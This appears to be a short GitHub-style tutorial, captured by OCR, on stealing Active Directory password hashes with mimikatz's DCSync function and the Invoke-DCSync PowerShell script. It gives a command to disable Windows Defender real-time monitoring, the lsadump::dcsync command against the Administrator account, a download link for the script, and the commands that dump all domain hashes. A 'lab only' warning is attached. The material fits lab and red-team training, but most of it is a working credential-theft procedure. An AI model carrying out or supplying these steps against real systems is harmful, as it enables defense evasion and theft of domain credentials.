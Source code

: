 # Invoke-DCSync
Invoke-DCSync
Reference: https://adsecurity.org/?p=1729
Reference: https://silentbreaksecurity.com/invoke-dcsync-because-we-all-wanted-it/
Goal: retrieve password hashes from all user accounts on a domain controller using the mimikatz DCSync function

Warning：Only do this in a lab environment.

mimikatz implemented a tool called DCSync, this allows mimikatz to impersonate a Domain Controller and attempt to retrieve all password hashes from another domain controller.

You may need to disable Windows Defender

Open up PowerShell as an administrator and type

$ Set-MpPreference -DisableRealtimeMonitoring $true

Start mimikatz

$ lsadump::dcsync /domain:test.local /user:Administrator

Now you have the password hash from that user

This required that you have Administrator access, specifically the Get-Replication-Changes-All Common Name attribute

Can use the Invoke-DCSync module to extract all hashes.

Download from: https://gist.github.com/monoxgas/9d238accd969550136db

~~~
$ Import-Module ./Invoke-DCSync.ps1
$ Invoke-DCSync -PWDumpFormat
~~~
